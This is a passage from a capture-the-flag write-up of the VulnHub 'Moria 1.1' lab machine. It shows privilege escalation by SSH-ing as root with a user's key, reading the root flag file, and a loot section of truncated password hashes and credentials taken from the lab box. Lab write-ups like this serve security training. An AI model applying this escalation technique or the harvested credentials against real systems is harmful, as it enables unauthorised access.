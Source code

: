 \newpage
## Phase #3: Privilege Escalation
1\. We find that the user `Ori` has an entry for `localhost` within the `.ssh/known_hosts` file. This means, if local SSH configuration allows `root` user login and user `Ori`'s public key is in the `authorized_keys` of `root` user, we can SSH as `root` to localhost using `Ori`'s public key:  
``` {.python .numberLines}
ssh -i id_rsa root@192.168.92.188

```

![writeup.privesc.steps.1.1](Box%20Write-ups/vulnhub.moria11/screenshot13.png)  

![writeup.privesc.steps.1.2](Box%20Write-ups/vulnhub.moria11/screenshot14.png)  

2\. We gain elevated access using the above technqiue and can now view the flag to complete the challenge:  
``` {.python .numberLines}
cat /root/flag.txt

```

![writeup.privesc.steps.2.1](Box%20Write-ups/vulnhub.moria11/screenshot15.png)  


\newpage

## Loot
### Hashes
``` {.python .numberLines}
root:$6$P7ElNgGp$fNzyy4OgqSR1ANJXTgbpzp4U42JXG1qJ55iNV10NVJoX5UWjtckWD0oHmcTOj0lqObyWhFu2y3udHVpHa........................
abatchy:$6$xEq/159Q$ScuKnynbwTBdFA4B9w6OqKxQpWPGpofi59McVuP6T1SADKhNy4n33Ovkk0hwZQkx72XriPSIrc2ubr16O........................
Balrog:$6$J6kuCfxq$L5ALsHRYfOu0bVV9MbW3.VZOUVEaKSWhfPIq5wXUFV407tpvH8Zx7WdbJeXgdWoPo9LU8eIznf0d44qoF........................
Ori:$6$1zYgjEIM$VQ0gvU7JjenS9WuiVjSeva8pbWnEXjqTmEdFnQRXKmTmXPXmt55/oyup40NiXD8J9GxmXF7DYiaHZDRshr.......................
```
### Credentials
``` {.python .numberLines}
ftp: Balrog/Mel...
ssh: Ori/span..
```

## References
[+] <https://www.vulnhub.com/entry/moria-11,187/>  
[+] <https://phackt.com/moria-vulnhub>  
